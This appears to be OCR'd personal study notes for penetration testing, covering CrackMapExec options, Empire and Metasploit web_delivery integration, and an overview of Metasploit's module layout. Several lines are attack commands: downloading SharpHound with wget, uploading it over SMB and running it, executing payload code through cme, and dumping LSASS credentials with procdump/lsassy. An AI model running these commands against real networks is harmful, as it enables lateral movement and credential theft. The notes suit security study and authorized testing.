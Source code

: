 - SSH
  - -x
  - --key-file

- C2
  - Empire
    - Config file of cme and empire
      - cme: ~/.cme/cme.conf => user:password
    - **-M empire_exec** -o LISTENER=http
  - Metasploit
    - use exploit/multi/script/web_delivery
    - -**M web_delivery**
      - URL= PAYLOAD=64/32
  - Upload payload to target + execute it + 
  - cme smb -X 'Code from metasploit' --no-output
- Bloodhound
```
wget https://github.com/BloodHoundAD/BloodHound/raw/master/Collectors/SharpHound.exe -q
```
  - cme smb --put-file SharpHound.exe SharpHound.exe
  - cme smb -x "C:\SharpHound.exe -c All && dir c:\*_BloodHound.zip"
  - -M procdump/lsassy => sync with bloodhound
  - -M bh_owned: set computer as owned
    - PASS=password
    - cme smb user => set as owned


## Own modules - Additiona functionality
- Modules
  - [poetry](https://academy.hackthebox.com/module/84/section/797)
- Audit mode
```
[CME]
workspace = default
last_used_db = smb
pwn3d_label = Pwn3d!
audit_mode = REPLAcE_PASSWORD
```
- IPv6
  - -M get_connections

# Metasploit
- [Community vs Pro](https://www.rapid7.com/products/metasploit/download/editions/) 
- [Exploits](https://github.com/rapid7/metasploit-framework/tree/master/modules/exploits)
- /usr/share/metasploit-framework
  - -modules: aux,enc,eva,exp,nop,payloads,post
  - -scripts: automation,dev,context,exploit,hard,mem,module
- Structure: Enum + Prepare + Exploit + Escalate + Post-Exploit

## Module
- Tags
  - <#> type/os/service/name
  - type: aux,enc,exp,nops,payload,pluging,post
